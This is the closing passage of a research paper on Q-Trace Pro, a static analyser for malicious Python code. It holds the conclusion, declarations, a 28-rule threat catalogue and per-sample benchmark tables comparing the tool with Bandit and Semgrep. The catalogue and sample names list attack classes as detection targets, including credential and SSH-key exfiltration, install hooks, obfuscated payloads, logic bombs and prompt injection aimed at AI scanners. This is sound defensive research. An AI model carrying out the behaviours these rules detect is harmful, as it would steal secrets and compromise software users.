($F_1\,0.984$), beating Bandit and Semgrep on the same inputs, and an ablation shows
the confidence axis is directly responsible for eliminating a 5.9\pct{} false-positive
rate. We further contributed an evidence-based anti-analysis detector that improves
precision and coverage simultaneously.

\emph{Future work.} We plan to (i) escalate SSRF and similar ambiguous classes
automatically when interprocedural taint confirms attacker-controlled input, closing
the one documented miss without sacrificing precision; (ii) extend the cross-file taint
model to deeper call graphs and to package-level provenance; (iii) grow the corpus
toward a population-scale, continuously-updated benchmark drawn from newly-disclosed
incidents; and (iv) study the stability of the confidence model's thresholds across
languages beyond Python. We believe the two-axis, sink-aware principle generalises:
wherever a detector must choose between coverage and trust, separating impact from
reachability-driven evidence---and gating on their conjunction---is the lever that lets
it have both.

% =====================================================================
\section*{Declarations}
\textbf{Originality.} This manuscript is the authors' original work; no part is
plagiarised, and all external ideas, tools, and results are attributed by citation. It
is not published elsewhere nor under concurrent review.
\textbf{Author contributions (CRediT).} \emph{Dinesh K}: conceptualisation,
methodology, software, formal analysis, writing---original draft. \emph{H Swetha}:
validation, data curation, visualisation, writing---review \& editing.
\textbf{Funding.} No external funding; the work was conducted at Voxelta Private
Limited. \textbf{Conflict of interest.} The authors are affiliated with Voxelta Private
Limited, which develops Q-Trace Pro; the evaluation harness and corpus are released so
all numbers can be independently reproduced. \textbf{Data/code availability.} Tool,
corpus, and harness are available in the project repository (Section~\ref{sec:repro}).
\textbf{Use of AI assistance.} Automated coding assistance was used for implementation
and figure generation under author supervision; all technical claims and measurements
were verified against the released harness. \textbf{Ethical compliance.} No human
subjects, personal data, or live malware were involved.

% =====================================================================
\appendices
\section{Threat Catalogue}\label{app:catalog}
Table~\ref{tab:catalog} lists the full rule catalogue---28 rules across 18 distinct
CWEs---each with its fixed severity and base confidence. Per-instance confidence is
then computed by Algorithm~\ref{alg:conf}.

\begin{table}[!t]
\renewcommand{\arraystretch}{1.1}
\caption{Full Q-Trace threat catalogue (28 rules).}
\label{tab:catalog}
\centering\scriptsize
\begin{tabular}{@{}p{5.0cm}p{1.3cm}p{1.0cm}p{1.0cm}@{}}
\toprule
\textbf{Title} & \textbf{CWE} & \textbf{Sev.} & \textbf{Base conf.}\\
\midrule
Credential / Data Exfiltration & CWE-200 & Critical & Medium\\
Cross-Function Embedded Malicious Code & CWE-506 & Critical & Medium\\
Install-Time / Import-Time Code Execution & CWE-506 & Critical & Medium\\
Encoded / Obfuscated Payload & CWE-506 & Critical & Medium\\
Steganographic / Covert Data Channel & CWE-515 & Critical & Medium\\
AI-Scanner Evasion (Prompt Injection in Code) & CWE-506 & High & Medium\\
Chained / Stateful Logic Bomb & CWE-511 & High & Medium\\
OS Command Injection & CWE-78 & High & Medium\\
Dangerous Execution Sink & CWE-78 & High & High\\
Disabled TLS Validation & CWE-295 & High & High\\
Entangled (Multi-Condition) Logic Bomb & CWE-511 & High & Medium\\
Environment-Keyed Trigger & CWE-506 & High & Medium\\
Exposed Secret / Hard-coded Credential & CWE-798 & High & High\\
Hard-coded Credentials & CWE-798 & High & Medium\\
Insecure Deserialization & CWE-502 & High & High\\
Path Traversal & CWE-22 & High & Low\\
Probabilistic Logic Bomb & CWE-511 & High & Medium\\
SQL Injection & CWE-89 & High & Medium\\
Server-Side Request Forgery & CWE-918 & High & Low\\
Typosquat / Slopsquat Dependency & CWE-829 & High & Medium\\
Cleartext Transmission & CWE-319 & Medium & Low\\
Debug Mode Enabled & CWE-489 & Medium & Medium\\
Insufficiently Random Values & CWE-330 & Medium & Medium\\
Insecure Temporary File & CWE-377 & Medium & Medium\\
Anti-Analysis / Anti-Debug Behaviour & CWE-489 & Medium & Medium\\
Weak Cipher & CWE-327 & Medium & Medium\\
Weak Hash Algorithm & CWE-327 & Medium & Medium\\
XML External Entity (XXE) & CWE-611 & Medium & Low\\
\bottomrule
\end{tabular}
\end{table}

\section{Full Per-Sample Results}\label{app:persample}
Tables~\ref{tab:mal} and~\ref{tab:ben} give the complete per-sample outcome for every
corpus item, reproduced verbatim from the harness. A check marks a build-breaking alert
at the tool's own gate; a cross a miss; a dash an unsupported input class.

\begin{table}[!t]
\renewcommand{\arraystretch}{1.1}
\caption{Malicious corpus (31 samples): per-tool CI-gate outcome (Q-T = Q-Trace, Sem = Semgrep, Ban = Bandit).}
\label{tab:mal}
\centering\footnotesize
\begin{tabular}{@{}p{3.4cm}p{3.4cm}ccc@{}}
\toprule
\textbf{Sample} & \textbf{Expected class} & \textbf{Q-T} & \textbf{Sem} & \textbf{Ban}\\
\midrule
probabilistic\_bomb & PROBABILISTIC\_BOMB & $\checkmark$ & $\checkmark$ & $\times$\\
chained\_bomb & CHAINED\_QUANTUM\_BOMB & $\checkmark$ & $\checkmark$ & $\times$\\
cross\_func\_bomb & CROSS\_FUNCTION\_QUANTUM\_BOMB & $\checkmark$ & $\checkmark$ & $\times$\\
stego\_chr\_xor & QUANTUM\_STEGANOGRAPHY & $\checkmark$ & $\times$ & $\times$\\
exec\_base64 & OBFUSCATED\_PAYLOAD & $\checkmark$ & $\checkmark$ & $\checkmark$\\
xor\_blob\_exec & OBFUSCATED\_PAYLOAD & $\checkmark$ & $\checkmark$ & $\checkmark$\\
cred\_exfil\_direct & CREDENTIAL\_EXFILTRATION & $\checkmark$ & $\times$ & $\checkmark$\\
ssh\_key\_exfil & CREDENTIAL\_EXFILTRATION & $\checkmark$ & $\times$ & $\checkmark$\\
install\_hook & INSTALL\_HOOK & $\checkmark$ & $\checkmark$ & $\times$\\
env\_keying & ENVIRONMENT\_KEYING & $\checkmark$ & $\checkmark$ & $\times$\\
ai\_evasion & AI\_SCANNER\_EVASION & $\checkmark$ & $\checkmark$ & $\times$\\
sql\_injection & SQL\_INJECTION & $\checkmark$ & $\checkmark$ & $\checkmark$\\
cmd\_injection & COMMAND\_INJECTION & $\checkmark$ & $\checkmark$ & $\checkmark$\\
os\_system\_fmt & COMMAND\_INJECTION & $\checkmark$ & $\checkmark$ & $\checkmark$\\
pickle\_loads & INSECURE\_DESERIALIZATION & $\checkmark$ & $\checkmark$ & $\checkmark$\\
yaml\_load & INSECURE\_DESERIALIZATION & $\checkmark$ & $\checkmark$ & $\checkmark$\\
eval\_input & DANGEROUS\_SINK & $\checkmark$ & $\checkmark$ & $\checkmark$\\
antidebug\_sleep & QUANTUM\_ANTIDEBUG & $\checkmark$ & $\times$ & $\times$\\
hardcoded\_secret & HARDCODED\_SECRET & $\checkmark$ & $\checkmark$ & $\times$\\
disabled\_tls & DISABLED\_CERT\_VALIDATION & $\checkmark$ & $\checkmark$ & $\checkmark$\\
weak\_hash\_pw & WEAK\_HASH & $\checkmark$ & $\checkmark$ & $\checkmark$\\
ssrf & SSRF & $\times$ & $\times$ & $\checkmark$\\
path\_traversal & PATH\_TRAVERSAL & $\checkmark$ & $\times$ & $\times$\\
xxe & XXE & $\checkmark$ & $\checkmark$ & $\checkmark$\\
insecure\_random\_token & INSECURE\_RANDOM & $\checkmark$ & $\times$ & $\times$\\
aws\_secret\_leak & EXPOSED\_SECRET & $\checkmark$ & $\times$ & $\times$\\
private\_key\_leak & EXPOSED\_SECRET & $\checkmark$ & $\times$ & $\times$\\
github\_token\_leak & EXPOSED\_SECRET & $\checkmark$ & $\checkmark$ & $\times$\\
typosquat\_req & TYPOSQUAT\_DEPENDENCY & $\checkmark$ & -- & --\\
slopsquat\_req & TYPOSQUAT\_DEPENDENCY & $\checkmark$ & -- & --\\
cross\_file\_exfil & CREDENTIAL\_EXFILTRATION & $\checkmark$ & $\times$ & $\checkmark$\\
\bottomrule
\end{tabular}
\end{table}

\begin{table}[!t]
\renewcommand{\arraystretch}{1.1}
\caption{Benign hard-negatives (34 samples): Q-Trace CI decision and its highest (severity/confidence) finding.}
\label{tab:ben}
\centering\footnotesize
\begin{tabular}{@{}p{4.0cm}p{3.0cm}p{3.0cm}@{}}
\toprule
\textbf{Sample} & \textbf{CI decision} & \textbf{Top finding}\\
\midrule
flask\_run & $\checkmark$ clean & --\\
subprocess\_list & $\checkmark$ clean & --\\
md5\_nonsecurity & $\checkmark$ clean & --\\
sha256\_ok & $\checkmark$ clean & --\\
random\_sampling & $\checkmark$ clean & --\\
random\_ab\_test & $\checkmark$ clean & High/Low\\
yaml\_safe & $\checkmark$ clean & --\\
sql\_parameterized & $\checkmark$ clean & --\\
verify\_true & $\checkmark$ clean & High/Low\\
requests\_const\_url & $\checkmark$ clean & --\\
chr\_formatting & $\checkmark$ clean & --\\
encode\_decode & $\checkmark$ clean & --\\
env\_debug\_print & $\checkmark$ clean & --\\
env\_ci\_print & $\checkmark$ clean & --\\
pickle\_dump\_only & $\checkmark$ clean & --\\
open\_config & $\checkmark$ clean & --\\
argparse\_cli & $\checkmark$ clean & --\\
dataclass\_code & $\checkmark$ clean & --\\
pandas\_groupby & $\checkmark$ clean & --\\
plain\_function & $\checkmark$ clean & --\\
legit\_requirements & $\checkmark$ clean & --\\
legit\_pyproject & $\checkmark$ clean & --\\
base64\_encode\_cfg & $\checkmark$ clean & --\\
comment\_security\_word & $\checkmark$ clean & --\\
logging\_debug & $\checkmark$ clean & --\\
tempfile\_mkstemp & $\checkmark$ clean & --\\
secrets\_token & $\checkmark$ clean & --\\
ssl\_default\_ctx & $\checkmark$ clean & --\\
class\_methods & $\checkmark$ clean & --\\
env\_to\_config & $\checkmark$ clean & --\\
random\_shuffle & $\checkmark$ clean & --\\
ignore\_word\_comment & $\checkmark$ clean & --\\
secret\_placeholder & $\checkmark$ clean & --\\
secret\_from\_env & $\checkmark$ clean & --\\
\bottomrule
\end{tabular}
\end{table}

% =====================================================================
\begin{thebibliography}{99}
\bibitem{cwe} MITRE Corporation, ``Common Weakness Enumeration (CWE),'' cwe.mitre.org.
\bibitem{owasp} OWASP Foundation, ``OWASP Top 10'' and ``Risk Rating Methodology,'' owasp.org.
\bibitem{attack} MITRE Corporation, ``ATT\&CK: T1480.001 Environmental Keying; T1497 Virtualization/Sandbox Evasion,'' attack.mitre.org.
\bibitem{bandit} PyCQA, ``Bandit: a security linter for Python,'' github.com/PyCQA/bandit.
\bibitem{semgrep} Semgrep Inc., ``Semgrep: lightweight static analysis,'' semgrep.dev.
\bibitem{codeql} GitHub Inc., ``CodeQL,'' codeql.github.com.
\bibitem{sarif} OASIS, ``Static Analysis Results Interchange Format (SARIF) v2.1.0,'' OASIS Standard, 2020.
\bibitem{z3} L.~de~Moura and N.~Bj\o rner, ``Z3: An efficient SMT solver,'' in \emph{Proc. TACAS}, 2008.
\bibitem{higuchi} T.~Higuchi, ``Approach to an irregular time series on the basis of the fractal theory,'' \emph{Physica D}, vol.~31, no.~2, pp.~277--283, 1988.
\bibitem{shannon} C.~E.~Shannon, ``A mathematical theory of communication,'' \emph{Bell Syst. Tech. J.}, vol.~27, pp.~379--423, 1948.
\bibitem{ohm} M.~Ohm, H.~Plate, A.~Sykosch, and M.~Meier, ``Backstabber's knife collection: A review of open source software supply chain attacks,'' in \emph{Proc. DIMVA}, 2020.
\bibitem{zimmermann} M.~Zimmermann, C.-A.~Staicu, C.~Tenny, and M.~Pradel, ``Small world with high risks: A study of security threats in the npm ecosystem,'' in \emph{Proc. USENIX Security}, 2019.
\bibitem{ladisa} P.~Ladisa, H.~Plate, M.~Martinez, and O.~Barais, ``SoK: Taxonomy of attacks on open-source software supply chains,'' in \emph{Proc. IEEE S\&P}, 2023.
\bibitem{johnson} B.~Johnson, Y.~Song, E.~Murphy-Hill, and R.~Bowdidge, ``Why don't software developers use static analysis tools to find bugs?'' in \emph{Proc. ICSE}, 2013.
\bibitem{bessey} A.~Bessey \emph{et al.}, ``A few billion lines of code later: Using static analysis to find bugs in the real world,'' \emph{Commun. ACM}, vol.~53, no.~2, pp.~66--75, 2010.
\bibitem{christakis} M.~Christakis and C.~Bird, ``What developers want and need from program analysis: An empirical study,'' in \emph{Proc. ASE}, 2016.
\bibitem{sadowski} C.~Sadowski, E.~Aftandilian, A.~Eagle, L.~Miller-Cushon, and C.~Jaspan, ``Lessons from building static analysis tools at Google,'' \emph{Commun. ACM}, vol.~61, no.~4, pp.~58--66, 2018.
\bibitem{flowdroid} S.~Arzt \emph{et al.}, ``FlowDroid: Precise context, flow, field, object-sensitive and lifecycle-aware taint analysis for Android apps,'' in \emph{Proc. PLDI}, 2014.
\bibitem{pixy} N.~Jovanovic, C.~Kruegel, and E.~Kirda, ``Pixy: A static analysis tool for detecting web application vulnerabilities,'' in \emph{Proc. IEEE S\&P}, 2006.
\bibitem{spracklen} J.~Spracklen \emph{et al.}, ``We have a package for you! A comprehensive analysis of package hallucinations by code-generating LLMs,'' arXiv preprint, 2024.
\bibitem{brumley} D.~Brumley, C.~Hartwig, Z.~Liang, J.~Newsome, D.~Song, and H.~Yin, ``Automatically identifying trigger-based behavior in malware,'' in \emph{Botnet Detection}, Springer, 2008.
\bibitem{taintcheck} J.~Newsome and D.~Song, ``Dynamic taint analysis for automatic detection, analysis, and signature generation of exploits on commodity software,'' in \emph{Proc. NDSS}, 2005.
\bibitem{schwartz} E.~J.~Schwartz, T.~Avgerinos, and D.~Brumley, ``All you ever wanted to know about dynamic taint analysis and forward symbolic execution (but might have been afraid to ask),'' in \emph{Proc. IEEE S\&P}, 2010.
\bibitem{nielson} F.~Nielson, H.~R.~Nielson, and C.~Hankin, \emph{Principles of Program Analysis}. Springer, 1999.
\bibitem{vonneumann} J.~von~Neumann, \emph{Mathematical Foundations of Quantum Mechanics}. Princeton Univ. Press, 1955.
\bibitem{cvss} FIRST.org, ``Common Vulnerability Scoring System (CVSS) v3.1 Specification,'' first.org/cvss.
\bibitem{reports} Checkmarx, Phylum, and Sonatype, ``Public threat reports on the W4SP stealer, aiocpa, and PyPI install-time payloads,'' 2023--2025.
\bibitem{gitguardian} GitGuardian, ``The State of Secrets Sprawl,'' Annual report, 2025.
\bibitem{pipaudit} Python Packaging Authority, ``pip-audit: audit Python environments for known vulnerabilities,'' github.com/pypa/pip-audit.
\bibitem{osv} Google, ``OSV-Scanner and the OSV vulnerability database,'' osv.dev.
\bibitem{king} J.~C.~King, ``Symbolic execution and program testing,'' \emph{Commun. ACM}, vol.~19, no.~7, pp.~385--394, 1976.
\bibitem{klee} C.~Cadar, D.~Dunbar, and D.~Engler, ``KLEE: Unassisted and automatic generation of high-coverage tests for complex systems programs,'' in \emph{Proc. OSDI}, 2008.
\bibitem{dart} P.~Godefroid, N.~Klarlund, and K.~Sen, ``DART: Directed automated random testing,'' in \emph{Proc. PLDI}, 2005.
\bibitem{sage} P.~Godefroid, M.~Y.~Levin, and D.~Molnar, ``Automated whitebox fuzz testing,'' in \emph{Proc. NDSS}, 2008.
\bibitem{triggerscope} Y.~Fratantonio, A.~Bianchi, W.~Robertson, E.~Kirda, C.~Kruegel, and G.~Vigna, ``TriggerScope: Towards detecting logic bombs in Android applications,'' in \emph{Proc. IEEE S\&P}, 2016.
\bibitem{cpg} F.~Yamaguchi, N.~Golde, D.~Arp, and K.~Rieck, ``Modeling and discovering vulnerabilities with code property graphs,'' in \emph{Proc. IEEE S\&P}, 2014.
\bibitem{livshits} V.~B.~Livshits and M.~S.~Lam, ``Finding security vulnerabilities in Java applications with static analysis,'' in \emph{Proc. USENIX Security}, 2005.
\bibitem{lyda} R.~Lyda and J.~Hamrock, ``Using entropy analysis to find encrypted and packed malware,'' \emph{IEEE Security \& Privacy}, vol.~5, no.~2, pp.~40--45, 2007.
\bibitem{chessmcgraw} B.~Chess and G.~McGraw, ``Static analysis for security,'' \emph{IEEE Security \& Privacy}, vol.~2, no.~6, pp.~76--79, 2004.
\bibitem{findbugs} N.~Ayewah, W.~Pugh, D.~Hovemeyer, J.~D.~Morgenthaler, and J.~Penix, ``Using static analysis to find bugs,'' \emph{IEEE Software}, vol.~25, no.~5, pp.~22--29, 2008.
\bibitem{infer} D.~Distefano, M.~F\"ahndrich, F.~Logozzo, and P.~W.~O'Hearn, ``Scaling static analyses at Facebook,'' \emph{Commun. ACM}, vol.~62, no.~8, pp.~62--70, 2019.
\bibitem{maloss} R.~Duan, O.~Alrawi, R.~P.~Kasturi, R.~Elder, B.~Saltaformaggio, and W.~Lee, ``Towards measuring supply chain attacks on package managers for interpreted languages,'' in \emph{Proc. NDSS}, 2021.
\bibitem{lastpymile} D.-L.~Vu, F.~Massacci, I.~Pashchenko, H.~Plate, and A.~Sabetta, ``LastPyMile: Identifying the discrepancy between sources and packages,'' in \emph{Proc. ESEC/FSE}, 2021.
\bibitem{sejfia} A.~Sejfia and M.~Sch\"afer, ``Practical automated detection of malicious npm packages,'' in \emph{Proc. ICSE}, 2022.
\bibitem{intoto} S.~Torres-Arias, H.~Afzali, T.~K.~Kuppusamy, R.~Curtmola, and J.~Cappos, ``in-toto: Providing farm-to-table guarantees for bits and bytes,'' in \emph{Proc. USENIX Security}, 2019.
\bibitem{taintdroid} W.~Enck \emph{et al.}, ``TaintDroid: An information-flow tracking system for realtime privacy monitoring on smartphones,'' in \emph{Proc. OSDI}, 2010.
\bibitem{rice} H.~G.~Rice, ``Classes of recursively enumerable sets and their decision problems,'' \emph{Trans. Amer. Math. Soc.}, vol.~74, pp.~358--366, 1953.
\bibitem{slsa} Open Source Security Foundation, ``SLSA: Supply-chain Levels for Software Artifacts,'' slsa.dev.
\bibitem{sonatype} Sonatype, ``State of the Software Supply Chain,'' Annual report, 2024.
\bibitem{guo} W.~Guo \emph{et al.}, ``An empirical study of malicious code in PyPI ecosystem,'' in \emph{Proc. IEEE/ACM ASE}, 2023.
\bibitem{scholte} T.~Scholte, D.~Balzarotti, and E.~Kirda, ``Have things changed now? An empirical study on input validation vulnerabilities in web applications,'' \emph{Computers \& Security}, vol.~31, no.~3, pp.~344--356, 2012.
\bibitem{backstab2} M.~Ohm, L.~Kempf, F.~Boes, and M.~Meier, ``Supporting the detection of software supply chain attacks through unsupervised signature generation,'' arXiv preprint, 2021.
\end{thebibliography}

\end{document}
